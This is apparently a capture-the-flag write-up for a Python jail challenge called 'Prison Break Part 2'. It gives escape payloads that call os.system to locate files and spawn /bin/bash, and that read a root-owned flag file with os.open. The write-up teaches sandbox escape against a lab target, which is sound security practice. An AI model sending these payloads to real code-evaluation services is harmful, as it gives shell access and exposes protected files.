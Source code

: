 # Prison Break Part 2
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module

### Solution
1. To locate the flag file<br/>
  ```print(os.system("locate flag.txt"))```

2. Gaining root access to the container or directly reading the file<br/>
  ```print(os.system("/bin/bash"))``` or ```print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))```
